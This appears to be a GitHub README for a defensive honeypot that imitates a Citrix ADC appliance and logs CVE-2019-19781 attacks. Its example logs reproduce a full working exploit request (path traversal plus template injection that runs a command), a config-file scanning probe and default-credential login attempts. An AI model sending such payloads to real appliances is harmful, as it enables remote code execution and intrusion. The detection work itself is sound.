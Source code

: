# Citrix ADC (NetScaler) Honeypot
- Detects and logs payloads for CVE-2019-19781 (Shitrix / Citrixmash)
- Logs failed login attempts
- Serves content and headers taken from real appliance in order to increase chance of indexing on search engines (e.g. google, shodan etc.)

![screenshot](https://github.com/x1sec/citrix-honeypot/blob/master/img/screenshot.png)

## Installation

### Precompiled
Precompiled Linux (x64) package available [here](https://github.com/x1sec/citrix-honeypot/releases)

```
mkdir citrix-honeypot
cd citrix-honeypot
wget https://github.com/x1sec/citrix-honeypot/releases/download/v0.02/citrix-honeypot-linux-amd64.tar.gz
tar -xf citrix-honeypot-linux-amd64.tar.gz
```

### go get
If you have a [Go](https://golang.org/) environment ready to go:

```bash
go get github.com/x1sec/citrix-honeypot
```

### Running

It's easy as:
```bash
./citrix-honeypot
```

The honeypot will listen on both port `80` and `443` (so it must be run as `root` user)

Or to detach and run as a background process:
```
nohup ./citrix-honeypot &
```

## Logs
Results / data is written to the `./log` directory. They are:

`hits.log` - Scanning attempts and exploitation attempts with all data (e.g. headers, post body)

`all.log` - All HTTP requests that are observed hitting the server

`logins.log` - Attempted logins to the web interface

`tlsErrors.log` - Often internet scanners will send invalid data to port `443`. HTTPS errors are logged here.

### Examples

Running [the first public released exploit](https://github.com/projectzeroindia/CVE-2019-19781):
```
$ cat logs/hits.log 
2020/01/23 08:27:55 
-------------------
Exploitation detected ...
src: xxx.xxx.xxx.xxx
POST /vpn/../vpns/portal/scripts/newbm.pl HTTP/2.0
Host: xxx.xxx.xxx.xxx
Accept: */*
Content-Length: 181
Content-Type: application/x-www-form-urlencoded
Nsc_nonce: test1337
Nsc_user: /../../../../../../../../../../netscaler/portal/templates/zToMJRAzp0T0FuUS2cEp41ZZbmrtmUqS
User-Agent: curl/7.67.0

url=http://example.com\&title=[%25+template.new({'BLOCK'%3d'exec(\'id | tee /netscaler/portal/templates/zToMJRAzp0T0FuUS2cEp41ZZbmrtmUqS.xml\')%3b'})+%25]\&desc=test\&UI_inuse=RfWeb
```

Scanning attempt:
```
$ cat logs/hits.log 
2020/01/23 08:41:02 
-------------------
Scanning detected ... 
src: xxx.xxx.xxx.xxx
GET /vpn/../vpns/cfg/smb.conf HTTP/2.0
Host: xxx.xxx.xxx.xxx
Accept: */*
User-Agent: curl/7.67.0
```

Login attempts:
```
$ cat logs/logins.log
2020/01/23 07:26:03 Failed login from xxx.xxx.xxx.xxx user:nsroot pass:nsroot
2020/01/23 08:26:03 Failed login from xxx.xxx.xxx.xxx user:admin pass:admin
```
